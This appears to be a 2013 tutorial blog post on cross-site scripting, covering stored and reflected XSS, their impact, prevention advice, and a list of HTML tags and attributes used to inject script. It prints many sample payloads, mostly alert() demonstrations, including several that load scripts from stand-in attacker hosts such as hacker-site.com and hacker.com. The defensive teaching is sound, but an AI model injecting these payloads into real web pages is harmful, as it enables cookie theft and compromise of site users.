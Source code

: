 ```yaml
---
layout: post
title:  "Cross Site Scripting(XSS)"
date:   2013-06-18 13:59:40
categories: vulnerabilities
---
```


Cross Site Scripting (XSS) is the act of injecting malicious scripts or other HTML code into a web page that runs on the client browser and cause damage to your web site users. Mostly it works when your trust on a user input (e.g. feedback comments) and render such information as part of web page HTML without validating the contents thus all other users who visit this web page may become of attack.

Depending on the malicious script, it may execute automatically in web browser when the page is loading or it may trigger with a user action. Few web browsers like Internet Explorer put such infected web pages under suspected category and give warnings to user if any scripting code is being executed while web page is rendering but many Cross Site Script works by tricking with users and encouraging them to click on a link/image etc. that leads to malicious action without users being aware of such actions.

Simplest example to understand how it works: If you enter following JavaScript code in a Comment section of webpage, then next time whenever the page will load in browser it will execute the java script and prompt user with “hello” message:

<script>alert(hello);</script>
Injecting code with Img tag: <img src=javascript:alert(hello);>

Tricking users could be as simple as sending a interesting jpg (image) file to a user by email or putting a link in comment and embedding the malicious script into the jpg/image file. Many users does not see any risk with a image file but as soon as they click on the link from attacker’s source their security may be compromised.

Cross Site Scripting (XSS) Attack How it works?

If the attacker found a way to inject his script and he is capable to run his script in user’s browser then he may use this vulnerability to perform many actions like getting access to all other sensitive data (e.g. page contents, data & session cookies) available under current user session and he may pass such sensitive information to any other site without user being able to notice the attack or anything suspicious. Sometimes attacker does not get any direct benefit with the Cross Site Scripting (XSS) attack but it may help him to exploit other vulnerabilities.

Because Cross Site Scripting (XSS) attack impacts the website user base hence the influence of attack is very much dependent on the target user base of website. For example attacking a social website homepage may allow attacker to steal sensitive data from all the users who visit the website.

Cross Site Scripting (XSS) attack is also very harmful because the malicious html code runs in trusted zone, if user trust on your website contents and if your website also trust the authticated/anonymous user then both sides are acting in a trust environment thus allow max. potential to the attacker. While other attacks like SQL Injection attack can be monitored with monitoring tools and defendable with server side implementation, you are less capable of monitoring Cross Site Scripting (XSS) attack when the action is happening on client side.

Type of Cross Site Scripting (XSS) Attacks:

Cross Site Scripting (XSS) attacks are broadly categorized in two categories:

1) Persistent/Stored XSS:The persistent XSS is stored on the server side as part of infected webpage and it may impact all of the users who visit the webpage. It could be a trusted social website but the webpage is crafted by the attacker. You may find interesting stuff on attacker’s space but this webpage may contain malicious scripts or links.

2) Non-Persistent/Reflected XSS: Reflected attack is usually delivered by including a malicious link in a email. On top of it the link URL may appear pointing to a non-harmful/trusted website but containing the hidden XSS attack vector. When user clicks on the link, he may be redirected to the trusted site but the hidden XSS attack vector would execute malicious script and compromise the user data available with vulnerable website. Sometime the link may be pointing directly to a website compromised/hosted by the attacker, similar to above example of sending a interesting image/jpg file to the target user.

Impact:Cross Site Scripting allows an attacker to embed malicious JavaScript, VBScript, ActiveX, HTML, or Flash into a vulnerable dynamic page to fool the user, executing the script on his machine in order to gather data. The use of XSS might compromise private information, manipulate or steal cookies, create requests that can be mistaken for those of a valid user, or execute malicious code on the end-user systems. The data is usually formatted as a hyperlink containing malicious content and which is distributed over any possible means on the internet.

How to Prevent:

Because Cross Site Scripting (XSS) attacks may be crafted and delivered to users in multiple ways, you would not only need to protect your website implementation but also have to secure user actions and the data stored on the user side mostly in Cookie.

Identify Vulnerable Areas: For server side protection you first need to identify all those interfaces that render HTML based in inputs provided by users .e.g. Comments or feedback on your posts. The input could be indirect, for example the registered user’s name or id that if displayed in your website to other users.

Validate & Encode/Escape User Inputs: Once you know what all areas in your website depends on dynamic/user inputs then put the validation code to check that data is not matching the attack pattern e.g. does not have Script tags. The attack patterns are not limited and it may not be possible for you to put right defense in place to identify all possible patterns. Using a Web Application Firewall may be a quick solution.
Whether you may validate user inputs or not, you must HTML encode user provided data. You may use OWASP Antisamy API, HtmlPurifier or other security tools available for safe encoding of malicious contents. If the webpage also use Query string/URL parameters for HTML rendering then also URLEncode such data.

The complexity may increase when you provide WYSWYG or rich text editors as part of your applications and want to allow users to format their inputs using HTML tags.

When using ASP.Net:

- turn on correct Character encoding by setting the requestEncoding & responseEncoding attributes to “ISO-8859-1? & “ISO-8859-1? respectively in Web.Config file under “globalization” section.

- ASP.Net also provides protection by auto validating user inputs and restricting use of Scripts. To turn on this protection set validateRequest attribute to “true” in your Web.config file.

- Use innerText instead of innerHTML when you dynamically set the HTML of any tag during server side code. For example showing the Logged in user’s name in a HTML object that is retrieved from database but actually this input is controlled by the user when creating his profile.

Secure data saved in Cookie: If you store any sensitive data with Cookie on client side that must be encrypted and always checked for valid pattern before trusting such data. It is a wide spread practice to create a session id for authenticated users, storing session id in a cookie and web applications solely relying on session cookie to validate if the user has already login and authentic. Any XSS attack with that attacker may steal session cookie, allow attackers to login as fake user and further compromise website or user data. Simply encrypting session id here does not help because the attacker would also pass a correctly encrypted session id. To mitigate this problem you may validate session Id against the user IP address and may ask for reauthentication if the IP address has changed.

You should also set the HttpOnly cookie attribute that restrict client-side scripts to access a Cookie property of document object on client side script.
Vulnerable HTML Tags

The following HTML tags are commonly used by attackers to inject script code that should be looked closely for content validation:

<img>
<link>
<frame>
<iframe>
<embed>
<meta>

Other dangerous tags:

<frameset>
	<applet>
	<object>
	<html>
	<body>
	<layer>
	<ilayer>

“script”, “style”, “src”, “href”, “lowsrc” are the attributes that are used to inject the malicious scripts.

The “style’ tag may be used to inject script by setting the “Type” attribute value as “text/JavaScript”.

<style TYPE=”text/javascript”>
alert(‘you are done!’);
</style>

<SCRIPT>

The <SCRIPT> tag is the most popular way and sometimes easiest to detect. It can arrive to your page in the following forms:

External script:

<SCRIPT SRC=http://hacker-site.com/xss.js></SCRIPT>

Embedded script:

<SCRIPT> alert(“XSS”); </SCRIPT>

<BODY>

The <BODY> tag can contain an embedded script by using the ONLOAD event, as shown below:

<BODY ONLOAD=alert("XSS")>

The BACKGROUND attribute can be similarly exploited:

<BODY BACKGROUND="javascript:alert('XSS')">

<IMG>

Some browsers will execute a script when found in the <IMG> tag as shown here:

<IMG SRC="javascript:alert('XSS');">

There are some variations of this that work in some browsers:

<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">

<IFRAME>

The <IFRAME> tag allows you to import HTML into a page. This important HTML can contain a script.

<IFRAME SRC=”http://hacker-site.com/xss.html”>

<INPUT>

If the TYPE attribute of the <INPUT> tag is set to “IMAGE”, it can be manipulated to embed a script:

<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

<LINK>

The <LINK> tag, which is often used to link to external style sheets could contain a script:

<LINK REL="stylesheet" HREF="javascript:alert('XSS');">

<TABLE>

The BACKGROUND attribute of the TABLE tag can be exploited to refer to a script instead of an image:

<TABLE BACKGROUND="javascript:alert('XSS')">

The same applies to the <TD> tag, used to separate cells inside a table:

<TD BACKGROUND="javascript:alert('XSS')">

<DIV>

The <DIV> tag, similar to the <TABLE> and <TD> tags can also specify a background and therefore embed a script:

<DIV STYLE="background-image: url(javascript:alert('XSS'))">

The <DIV> STYLE attribute can also be manipulated in the following way:

<DIV STYLE="width: expression(alert('XSS'));">

<OBJECT>

The <OBJECT> tag can be used to pull in a script from an external site in the following way:

<OBJECT TYPE="text/x-scriptlet" DATA="http://hacker.com/xss.html">

<EMBED>

If the hacker places a malicious script inside a flash file, it can be injected in the following way:

<EMBED SRC="http://hacker.com/xss.swf" AllowScriptAccess="always">

Example of a Cross Site Scripting Attack

As a simple example, imagine a search engine site which is open to an XSS attack. The query screen of the search engine is a simple single field form with a submit button. Whereas the results page, displays both the matched results and the text you are looking for.

Search Results for "XSS Vulnerability"

To be able to bookmark pages, search engines generally leave the entered variables in the URL address. In this case the URL would look like:

http://test.searchengine.com/search.php?q=XSS%20

Vulnerability

Next we try to send the following query to the search engine:

<script type="text/javascript">
	alert ('This is an XSS Vulnerability')
	</script>

By submitting the query to search.php, it is encoded and the resulting URL would be something like:

http://test.searchengine.com/search.php?q=%3Cscript%3Ealert%28%91This%20is%20an%20XSS%20Vulnerability%92%29%3C%2Fscript%3E

Upon loading the results page, the test search engine would probably display no results for the search but it will display a JavaScript alert which was injected into the page by using the XSS vulnerability.

